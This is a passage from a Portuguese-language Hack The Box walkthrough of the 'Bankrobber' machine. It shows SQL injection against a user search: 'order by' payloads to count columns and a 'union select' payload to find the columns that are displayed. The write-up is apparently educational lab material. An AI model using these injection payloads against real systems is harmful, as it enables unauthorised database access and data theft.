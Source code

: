 ![Search User SQLi user enumeration](Assets\HTB-Windows-Insane-Bankrobber\search_user_enumeration_users.png)

Ok. Ai estão todos os usuários. E ainda temos sorte, o php/html está feito para criar linhas para incluir todos os resultado. Não é necessário concatenar nem coisa parecida.

Poderia fazer um script em python para simular uma shell, mas como já fiz na máquina **_FALAFEL_**, vou direto ao assunto. Além disso, para esta máquina, já há alguns scripts e vai haver mais um ainda.

O Próximo passo é enumerar a base de dados:

Perceber quantas colunas são

```sql
3' order by 100-- -  # Ther is a problem with your SQL syntax
3' order by 10-- -   # Ther is a problem with your SQL syntax
3' order by 4-- -    # Ther is a problem with your SQL syntax
3' order by 3-- -    # 3 javali
```

![SQLi order by 3](Assets\HTB-Windows-Insane-Bankrobber\sqli_order_by_3.png)

Perceber quais as colunas cujo resultado aparecem na tela:

```sql
3' union select 111,222,333-- -
```
